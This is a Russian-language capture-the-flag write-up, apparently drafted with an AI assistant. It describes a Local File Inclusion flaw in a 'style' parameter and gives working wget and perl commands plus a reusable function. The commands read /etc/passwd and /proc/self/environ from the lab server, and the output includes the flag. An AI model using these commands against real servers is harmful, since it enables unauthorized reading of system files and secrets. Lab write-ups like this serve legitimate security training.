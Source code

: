 
# Эксплуатация LFI в параметре `style`

## Суть уязвимости
Эндпоинт `/setcookie` принимает параметр `style` и без фильтрации подставляет его как путь к файлу. Содержимое этого файла сервер вставляет в HTML внутри тега `<style>…</style>`.  
Это приводит к уязвимости **Local File Inclusion (LFI)** и позволяет читать произвольные файлы на сервере.

---

## Ход эксплуатации

### 1. Проверка уязвимости
Отправка запроса с `style=/etc/hosts`:

```bash
tok=$(wget -qS --save-headers -O- --post-data "style=/etc/hosts" http://158.160.39.5:13355/setcookie 2>&1 \
      | sed -n 's/^  [sS]et-[cC]ookie: cookie=\([^;]*\);.*/\1/p' | tail -n 1)

wget -qO- --header "Cookie: cookie=$tok" http://158.160.39.5:13355/ \
  | perl -0777 -ne 'my @m = ($_ =~ m{<style[^>]*>(.*?)</style>}sig); print $m[-1] if @m;'
````

В ответе в `<style>…</style>` появилось содержимое `/etc/hosts`. Уязвимость подтверждена.

---

### 2. Автоматизация чтения файлов

Создана удобная функция `get_style`:

```bash
get_style() {
  path="$1"
  tok=$(wget -qS --save-headers -O- --post-data "style=$path" http://158.160.39.5:13355/setcookie 2>&1 \
        | sed -n 's/^  [sS]et-[cC]ookie: cookie=\([^;]*\);.*/\1/p' | tail -n 1)
  wget -qO- --header "Cookie: cookie=$tok" http://158.160.39.5:13355/ \
    | perl -0777 -ne 'my @m = ($_ =~ m{<style[^>]*>(.*?)</style>}sig); print $m[-1] if @m;'
}
```

Теперь можно читать любой файл так:

```bash
get_style /etc/passwd
```

---

### 3. Получение переменных окружения

Файл `/proc/self/environ` хранит переменные окружения процесса.
Он разделён нулевыми байтами, поэтому они заменяются на переносы строк:

```bash
get_style /proc/self/environ | tr '\0' '\n'
```

Ключевые данные:

```
PWD=/app
HOME=/root
CTF_FLAG=YANDEX_CsS_s0_sTyl1sh_So_s1Mpl3
```

---

### 4. Контекст процесса

Из `/proc/self/cmdline`:

```
python3
app.py
```

---

## Итоги

* **Флаг**: `YANDEX_CsS_s0_sTyl1sh_So_s1Mpl3`
* **Процесс**: `python3 app.py`
* **Рабочая директория**: `/app`
* Уязвимость эксплуатируется напрямую через LFI, без подбора JWT-секрета.

---

### Подсказка

Если прямая подстановка пути не работает, иногда помогает форма:

```
style=file:///etc/hosts
```

```

Хочешь, я дополню этот `README.md` блоком про рекомендации по защите от LFI (чтобы выглядело как полноценный разбор с mitigation)?
```
